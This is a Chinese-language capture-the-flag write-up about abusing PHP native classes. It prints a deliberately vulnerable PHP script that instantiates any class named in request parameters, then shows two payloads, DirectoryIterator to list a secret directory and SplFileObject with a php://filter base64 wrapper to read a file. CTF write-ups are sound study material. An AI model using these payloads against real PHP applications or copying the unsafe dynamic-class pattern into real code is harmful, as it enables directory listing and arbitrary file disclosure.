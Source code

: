 ### flag直接读取不就行了？

主要考察PHP原生类的利用

```php
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
echo new $J1ng($Hong);
?>
```

第一步：

```
http://gz.imxbt.cn:20056/?K=DirectoryIterator&W=/secret/
```

第二步：找到文件名之后开始读文件内容

```
J=SplFileObject&H=php://filter/read=convert.base64-encode/resource=/secret/f11444g.php
```

